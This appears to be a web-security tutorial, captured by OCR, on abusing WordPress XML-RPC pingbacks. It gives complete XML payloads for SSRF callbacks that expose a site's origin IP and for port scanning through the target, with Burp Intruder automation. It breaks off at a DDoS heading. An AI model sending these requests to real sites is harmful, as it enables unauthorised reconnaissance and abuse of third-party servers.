XML-RPC pingbacks & SSRF
To test for pingbacks or perform an SSRF attack, you can use the following XML request. Provide your server URL and a valid blog URL from the target site:

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://<YOUR SERVER></string></value>
</param>
<param>
<value><string>https://<SOME VALID BLOG FROM THE SITE>/</string></value>
</param>
</params>
</methodCall>

The response will typically look something like this indicating whether the pingback request was successful or if an error occurred:



As you can see we received a callback from the internal IP (origin) of my website behind the WAF. To ensure a proper HTTP callback instead of just a DNS pingback make sure to include a valid blog link in your XML request. If you only provide the target URL it will result in a DNS pingback without an actual HTTP request.

XSPA (Cross Site Port Attack)
If you want to perform port scanning on the target, you can do it using a similar method. Just use the same valid blog URL and specify the target site along with the desired port in your XML request. This will help you check if the port is open or closed.

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://website:port></string></value>
</param>
<param>
<value><string>https://<SOME VALID BLOG FROM THE SITE>/</string></value>
</param>
</params>
</methodCall>

As you can see we received a pingback from the website indicating that the specified port is open. If you provide an incorrect or closed port you’ll likely receive an error or experience a timeout.

To speed up the port scanning process you can send this request to Intruder in Burp Suite. Select the position of the port, upload a wordlist containing all port numbers and initiate the scan. The pingbacks will help you identify open ports on the target.

XML-RPC for a DDoS attack
Here’s an example of how attackers might attempt to exploit the pingback ping method using XML-RPC for a DDoS attack:
